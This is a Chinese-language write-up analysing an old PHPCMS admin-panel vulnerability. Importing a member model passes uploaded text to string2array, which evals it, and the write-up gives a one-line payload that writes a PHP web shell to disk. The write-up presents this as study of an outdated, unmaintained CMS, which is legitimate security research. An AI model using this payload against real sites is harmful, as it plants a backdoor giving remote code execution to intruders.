

这个cms比较老了，官方也停止了更新，但是可以在码云上找到源码：https://gitee.com/phpcms/phpcms
虽然洞比较老，但是闲来无事考古分析一波也还是比较有意思的
下载下来直接安装，根据README文件，修复了模板渲染的洞，但是还是有getshell的方法
phpcms 代码结构
分析一个cms首先是要看它的代码结构，phpcms的结构在这篇文章里已经说的比较详细了。关键的就是前台在index.php中，后台在admin.php中，具体的功能模块在phpcms/modules/目录下，工具函数在phpcms/libs目录下，想测什么直接去对应就好了
漏洞原理分析
后台getshell的洞大多出在模板渲染、文件上传、数据库操作等地方，README里已经提示修复了模板渲染，所以先看看哪里有文件上传的地方
在 用户->会员模型管理->管理会员模型->添加会员模型 处可以导入模型
看一看源码实现(phpcms/modules/member/member_model.php)
1 | function add() { |
将上传的内容经过string2array处理之后赋值给$model_import_data，跟进string2array
1 | function string2array($data) { |
可以看到没有任何过滤，而且如果以array开头就直接eval执行，很明显的代码注入
可以上传一个txt，内容如下，直接写一个shell
1 | array(1);$b=file_put_contents("moyu.php",'<?php eval($_REQUEST[moyu]);?>'); |
成功写入
